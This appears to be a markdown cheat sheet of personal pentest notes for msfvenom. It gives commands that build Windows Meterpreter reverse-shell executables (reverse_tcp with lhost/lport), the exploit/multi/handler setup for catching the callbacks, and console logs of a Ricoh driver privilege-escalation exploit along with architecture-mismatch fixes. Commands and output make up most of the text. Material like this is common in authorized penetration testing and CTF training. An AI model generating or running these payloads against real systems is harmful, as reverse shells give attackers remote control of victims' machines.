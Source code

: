[MSFVenom - CheatSheet
 by hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom)

[MSFVenom Reverse Shell Payload Cheatsheet (with & without Meterpreter by infinitelogins)](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

### Syntax
```
msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>
```

### Common 32 bit
```
myip=127.0.0.1

msfvenom -p windows/meterpreter/reverse_tcp lhost=$myip lport=3232 -f exe -o rev.exe
```

### Capture 32 vs 64 bit (exploit/multi/handler)
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp

# or

set payload windows/x64/meterpreter/reverse_tcp
```

### Examples 
```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) >

msf6 exploit(multi/handler) > grep yes options
   LHOST                   yes       The listen address (an interface may be specified)                                              
   LPORT  4444             yes       The listen port
```

```
msfvenom -l payloads
```

```
msfvenom -l payloads |
```

## Common Mistake

### The payload should use the same architecture as the target driver
```
msf6 exploit(windows/local/ricoh_driver_privesc) > run 

[*] Started reverse TCP handler on 10.10.14.11:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Ricoh driver directory has full permissions
[-] Exploit aborted due to failure: bad-config: The payload should use the same architecture as the target driver
[*] Deleting printer 
[*] Exploit completed, but no session was created.
msf6 exploit(windows/local/ricoh_driver_privesc) >
```
### 
```
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=$myip lport=1234 -a x64 -f exe -o rev64.exe           
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Error: The selected arch is incompatible with the payload
```

### 
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=$myip lport=6464 -a x64 -f exe -o r64.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: r64.exe
```

### 
```
$ file r*     
r32.exe: PE32 executable (GUI) Intel 80386, for MS Windows, 4 sections
r64.exe: PE32+ executable (GUI) x86-64, for MS Windows, 3 sections
```

### 
```

```
